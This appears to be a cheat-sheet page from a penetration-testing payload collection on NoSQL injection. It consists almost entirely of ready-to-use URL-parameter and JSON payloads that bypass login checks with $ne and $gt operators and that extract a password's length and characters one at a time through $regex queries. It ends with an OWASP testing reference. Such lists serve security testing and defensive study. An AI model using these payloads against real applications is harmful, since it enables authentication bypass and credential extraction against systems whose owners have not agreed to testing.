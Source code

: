 # NoSQLInjection

## Exploit
_Basic authentication bypass using not equal ($ne) or greater ($gt)_
```
in URL
username[$ne]=toto&password[$ne]=toto

in JSON
{"username": {"$ne": null}, "password": {"$ne": null} }
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"} }
{"username": {"$gt": undefined}, "password": {"$gt": undefined} }
```
_Extract length information_
```
username[$ne]=toto&password[$regex]=.{1}
username[$ne]=toto&password[$regex]=.{3}
```
_Extract data information_
```
in URL
username[$ne]=toto&password[$regex]=m.{2}
username[$ne]=toto&password[$regex]=md.{1}
username[$ne]=toto&password[$regex]=mdp

username[$ne]=toto&password[$regex]=m.*
username[$ne]=toto&password[$regex]=md.*

in JSON
{"username": {"$eq": "admin"}, "password": {"$regex": "^m" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^md" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^mdp" }}
```

# References:
- https://www.owasp.org/index.php/Testing_for_NoSQL_injection
-
